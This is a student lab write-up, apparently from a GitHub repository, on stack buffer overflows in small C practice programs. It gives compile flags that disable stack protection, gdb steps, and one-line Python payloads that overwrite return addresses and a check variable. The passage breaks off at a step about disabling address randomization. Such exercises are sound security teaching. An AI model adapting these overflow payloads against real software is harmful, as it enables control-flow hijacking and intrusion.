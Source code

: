 # Lab 1 :

## bof1 :

![stackframe](./img/bof1.png)
<br>

#### 1. compile bof1.c with gcc and turn off stack smashing & also aligns values ​​that are not multiples of 2 so that they are all at an even address

```
gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2
```

#### 2. load bof1 into gdb and observe secretFunc to get address

```
gdb bof1.out
```

```
disas secretFunc
```

![stackframe](./img/2.png)
<br>

#### 3. Exploiting a buffer overflow in the bof1.out program by overwriting the return address in the stack and shifting the program's control flow to the address 0x0804846b

```
echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out
```

#### 4.Result :

![stackframe](./img/3.png)

<br>

## bof2 :

![stackframe](./img/4.png)
<br>

#### 1. compile bof1.c with gcc and turn off stack smashing & also aligns values ​​that are not multiples of 2 so that they are all at an even address

```
gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2
```

#### 2. load bof2 into gdb then exploits a buffer overflow vulnerability, overwriting the variable check in memory. After the input string is fed into the program, the value of check is changed from 0x04030201 to 0xdeadbeef, resulting in the program printing "Yeah! You win!".

```
gdb bof2.out
```

- When the input string exceeds the size of the buf array, it will overwrite the check variable. Since check has been changed to 0xdeadbeef, the if (check == 0xdeadbeef) condition will become true, and the program will print "Yeah! You win!".

```
echo $(python -c "print('a' *40 + '\xef\xbe\xad\xde')") | ./bof2.out
```

#### 3. Result

![stackframe](./img/5.png)
<br>

## bof3 :

![stackframe](./img/6.png)
<br>

#### 1. compile bof1.c with gcc and turn off stack smashing & also aligns values ​​that are not multiples of 2 so that they are all at an even address

```
gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2
```

#### 2. load bof3 into gdb and observe sup to get address

```
gdb bof3.out
```

```
disas sup
```

![stackframe](./img/9.png)
<br>

#### 3. Exploiting a buffer overflow in the bof1.out program by overwriting the return address in the stack and shifting the program's control flow to the address 0x0804846e

```
echo $(python -c "print('a' *128 + '\x6e\x84\x04\x08')") | ./bof3.out
```

#### 4.Result :

![stackframe](./img/8.png)

<br>

## ctf :

![stackframe](./img/10.png)
<br>

#### 1. compile ctf.c with gcc and turn off stack smashing & also aligns values ​​that are not multiples of 2 so that they are all at an even address

```
gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2
```

#### 2. Adjust the system settings to disable address randomization
